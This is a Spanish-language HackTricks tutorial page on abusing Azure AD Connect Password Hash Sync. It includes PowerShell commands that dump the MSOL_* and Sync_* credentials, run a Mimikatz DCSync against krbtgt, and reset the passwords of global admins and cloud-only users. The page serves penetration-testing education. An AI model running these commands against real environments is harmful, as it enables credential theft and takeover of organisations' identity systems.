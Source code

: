 # Az - PHS - Sincronización de Hash de Contraseña

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

La **sincronización de hash de contraseña** es uno de los métodos de inicio de sesión utilizados para lograr una identidad híbrida. **Azure AD Connect** sincroniza un hash, del hash, de la contraseña de un usuario desde una instancia de Active Directory local a una instancia de Azure AD basada en la nube.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es el método **más común** utilizado por las empresas para sincronizar un AD local con Azure AD.

Todos los **usuarios** y un **hash de los hashes de las contraseñas** se sincronizan desde el local a Azure AD. Sin embargo, las **contraseñas en texto claro** o los **hashes originales** no se envían a Azure AD.
Además, los grupos de seguridad **integrados** (como los administradores de dominio...) **no se sincronizan** con Azure AD.

La **sincronización de hashes** ocurre cada **2 minutos**. Sin embargo, por defecto, la **expiración de la contraseña** y la **expiración de la cuenta** **no se sincronizan** en Azure AD. Por lo tanto, un usuario cuya **contraseña local ha expirado** (no cambiada) puede continuar **accediendo a recursos de Azure** utilizando la contraseña antigua.

Cuando un usuario local quiere acceder a un recurso de Azure, la **autenticación se lleva a cabo en Azure AD**.

**PHS** es necesario para características como **Protección de Identidad** y Servicios de Dominio de AAD.

## Pivoteo

Cuando se configura PHS, se **crean automáticamente algunas cuentas privilegiadas**:

* La cuenta **`MSOL_<installationID>`** se crea automáticamente en AD local. A esta cuenta se le otorga un rol de **Cuentas de Sincronización de Directorio** (ver [documentación](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) lo que significa que tiene **permisos de replicación (DCSync) en el AD local**.
* Se crea una cuenta **`Sync_<nombre del servidor ADConnect local>_installationID`** en Azure AD. Esta cuenta puede **restablecer la contraseña de CUALQUIER usuario** (sincronizado o solo en la nube) en Azure AD.

Las contraseñas de las dos cuentas privilegiadas anteriores se **almacenan en un servidor SQL** en el servidor donde **está instalado Azure AD Connect.** Los administradores pueden extraer las contraseñas de esos usuarios privilegiados en texto claro.\
La base de datos se encuentra en `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es posible extraer la configuración de una de las tablas, siendo una encriptada:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

La **configuración encriptada** está cifrada con **DPAPI** y contiene las **contraseñas del usuario `MSOL_*`** en AD local y la contraseña de **Sync\_\*** en AzureAD. Por lo tanto, comprometiendo estas es posible escalar privilegios al AD y a AzureAD.

Puedes encontrar una [visión general completa de cómo se almacenan y descifran estas credenciales en esta charla](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando el **servidor de Azure AD connect**

Si el **servidor donde está instalado Azure AD connect** está unido al dominio (recomendado en la documentación), es posible encontrarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Abusando de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
También puedes usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obtener estas credenciales.
{% endhint %}

### Abusando de Sync\_\*

Comprometer la cuenta **`Sync_*`** permite **restablecer la contraseña** de cualquier usuario (incluidos los Administradores Globales)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
También es posible **modificar las contraseñas solo de usuarios en la nube** (incluso si eso es inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
También es posible volcar la contraseña de este usuario.

{% hint style="danger" %}
Otra opción sería **asignar permisos privilegiados a un principal de servicio**, lo cual el usuario **Sync** tiene **permisos** para hacer, y luego **acceder a ese principal de servicio** como una forma de escalada de privilegios.
{% endhint %}

### Seamless SSO

Es posible utilizar Seamless SSO con PHS, lo cual es vulnerable a otros abusos. Consulta en:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
